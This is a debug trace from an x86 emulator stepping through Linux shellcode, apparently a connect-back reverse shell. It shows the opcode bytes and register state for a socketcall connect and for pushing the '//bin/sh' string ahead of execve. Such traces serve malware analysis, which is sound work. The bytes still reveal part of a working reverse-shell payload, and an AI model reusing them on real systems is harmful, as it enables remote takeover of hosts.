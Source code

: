 ```sh
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 50                              push eax
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417027
[emu 0x0x53e1f0 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0x53e1f0 debug ] esp=0x00416fba  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 51                              push ecx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417028
[emu 0x0x53e1f0 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0x53e1f0 debug ] esp=0x00416fb6  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 53                              push ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417029
[emu 0x0x53e1f0 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x0000000e
[emu 0x0x53e1f0 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] B303                            mov bl,0x3
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041702b
[emu 0x0x53e1f0 debug ] eax=0x00000066  ecx=0x00416fbe  edx=0x00000000  ebx=0x00000003
[emu 0x0x53e1f0 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 89E1                            mov ecx,esp
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041702d
[emu 0x0x53e1f0 debug ] eax=0x00000066  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0x53e1f0 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] CD80                            int 0x80
connect
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041702f
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0x53e1f0 debug ] esp=0x00416fb2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 52                              push edx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417030
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0x53e1f0 debug ] esp=0x00416fae  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 686E2F7368                      push dword 0x68732f6e
[emu 0x0x53e1f0 debug ] cpu state    eip=0x00417035
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0x53e1f0 debug ] esp=0x00416faa  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 682F2F6269                      push dword 0x69622f2f
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041703a
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00000003
[emu 0x0x53e1f0 debug ] esp=0x00416fa6  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 89E3                            mov ebx,esp
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041703c
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416fa6  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 52                              push edx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041703d
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416fa2  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 53                              push ebx
[emu 0x0x53e1f0 debug ] cpu state    eip=0x0041703e
[emu 0x0x53e1f0 debug ] eax=0x00000000  ecx=0x00416fb2  edx=0x00000000  ebx=0x00416fa6
[emu 0x0x53e1f0 debug ] esp=0x00416f9e  ebp=0x00000000  esi=0x00000000  edi=0x00000000
[emu 0x0x53e1f0 debug ] Flags: PF SF 
[emu 0x0x53e1f0 debug ] 89E1                            mov ecx,esp
```